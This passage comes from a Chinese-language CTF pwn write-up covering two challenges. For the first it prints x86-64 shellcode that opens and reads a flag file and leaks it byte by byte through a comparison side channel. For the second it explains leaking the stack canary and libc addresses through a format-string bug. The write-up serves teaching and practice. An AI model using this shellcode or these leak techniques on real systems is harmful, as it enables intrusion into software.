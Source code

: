 ```=
\x0F\x05                              syscall
\x41\xFF\xE7                          jmp    r15
```
既然題目有說flag會放在`/home/pekopeko/flag`而且可以使用`open`跟`read`那就使用open來把flag打開
```=
mov rax, 0x67616c
push rax
mov rax, 0x662f6f6b65706f6b
push rax
mov rax, 0x65702f656d6f682f
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall     /* open */
```
然後用read把她讀出來放在bss段上
```=
mov rdi, rax
mov rsi, 0x406e00
mov rdx, 0x30
xor rax, rax
syscall     /* read */
```
讀出來後沒有`write`可以使用，所以讀完沒辦法直接印在螢幕上，但是可以控制用一個暫存器指向存放flag的bss段，接著把裡面的東西一次1 byte讀出來用`cmp`做比較比較看看是不是相等的，就可以把flag給1 byte 1 byte戳出來
```=
add al, {idx}
mov bl, byte ptr [rax]
cmp bl, {i}
```

[exploit](/pwn/pekopeko/exploit.py)

## maplemiko
author: maple3142
### 考點
1. fmt
### exploit
#### TA version
這題存在format string的漏洞
```c=
printf(str, str);
```
所以如果輸入%p %p %p %p之類的可以把stack後面的東西印出來
![](https://i.imgur.com/iHb515J.png)

而stack上有canary libc等等所需的東西再加上沒有次數限制，所以只要知道它存在第幾個位置就可以用`%x$p`把東西給leak出來
![](https://i.imgur.com/KnspxsZ.png)
